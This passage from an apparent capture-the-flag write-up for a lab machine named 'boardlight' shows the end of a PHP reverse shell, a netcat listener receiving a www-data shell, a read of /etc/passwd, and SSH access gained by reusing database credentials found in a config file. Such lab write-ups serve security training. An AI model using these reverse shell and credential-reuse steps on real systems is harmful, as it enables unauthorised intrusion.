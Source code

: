 ```bash

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
And we receive a ```reverse shell```.

```bash
nc -nvlp 4444                                                      
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.11] 58084
Linux boardlight 5.15.0-107-generic #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 05:27:43 up 37 min,  0 users,  load average: 0.01, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:/$ whoami
whoami
www-data
www-data@boardlight:/$ hostname
hostname
boardlight
www-data@boardlight:/$ 
```
Enumerating the users, we find only two users that have shell access, ```larissa``` and ```root```.
```bash
cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```
In the path ```/html/crm.board.htb/htdocs/conf``` there is a file called ```conf.php``` containing credentials for ```mysql```, running on port ```3306``` on ```localhost```.
Logging to```mysql``` on the ```localhost``` with the found credentials does not bring us any further, so we attempt the same password found in the conf file with one of the users we discovered earlier, ```larissa```.
```bash
ssh larissa@board.htb

larissa@boardlight:~$ whoami
larissa
larissa@boardlight:~$ hostname
boardlight
```
Once the ```user.txt``` is collected, we move on to finding a path to root.
